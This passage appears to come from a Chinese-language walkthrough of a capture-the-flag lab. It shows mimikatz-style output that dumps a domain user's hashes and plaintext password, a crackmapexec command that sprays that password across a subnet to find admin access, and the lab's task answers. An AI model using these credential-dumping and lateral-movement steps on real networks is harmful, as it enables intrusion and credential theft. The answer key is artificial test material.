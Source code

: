 Authentication Id : 0 ; 310162 (00000000:0004bb92)
Session           : Interactive from 1
User Name         : watamet
Domain            : HOLOLIVE
Logon Server      : DC-SRV01
Logon Time        : 8/4/2022 5:42:25 AM
SID               : S-1-5-21-471847105-3603022926-1728018720-1132
  msv : 
   [00000003] Primary
   * Username : watamet
   * Domain   : HOLOLIVE
   * NTLM     : d8d41e6cf762a8c77776a1843d4141c9
   * SHA1     : 7701207008976fdd6c6be9991574e2480853312d
   * DPAPI    : 300d9ad961f6f680c6904ac6d0f17fd0
  tspkg : 
  wdigest : 
   * Username : watamet
   * Domain   : HOLOLIVE
   * Password : (null)
  kerberos :  
   * Username : watamet
   * Domain   : HOLO.LIVE
   * Password : Nothingtoworry!
  ssp : 
  credman : 
```

找到一个用户的明文密码：```watamet : Nothingtoworry! ```


使用cme验证上面的用户密码,扫描AD所在网段（我这里是114）有权限的机器

```
proxychains crackmapexec smb 10.200.114.0/24 -u watamet -d HOLOLIVE -p 'Nothingtoworry!'

<skip..>

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.114.200:445 SMB         10.200.114.30   445    DC-SRV01         [+] holo.live\watamet:Nothingtoworry!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.114.147:445 SMB         10.200.114.35   445    PC-FILESRV01     [+] holo.live\watamet:Nothingtoworry! 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.114.216:445 SMB         10.200.114.31   445    S-SRV01          [+] holo.live\watamet:Nothingtoworry! (Pwn3d!)

```

对```10.200.114.31```有管理员权限
对```10.200.114.30```可以进行身份验证
对```10.200.114.35```可以进行身份验证

**Task 36  Post Exploitation That's not a cat that's a dawg**

> What domain user's credentials can we dump on S-SRV01?

> watamet

> What is the domain user's password that we can dump on S-SRV01?

> Nothingtoworry!

**Task 37  Post Exploitation Good Intentions, Courtesy of Microsoft: Part II**

> What is the hostname of the remote endpoint we can authenticate to?

> PC-FILESRV01
```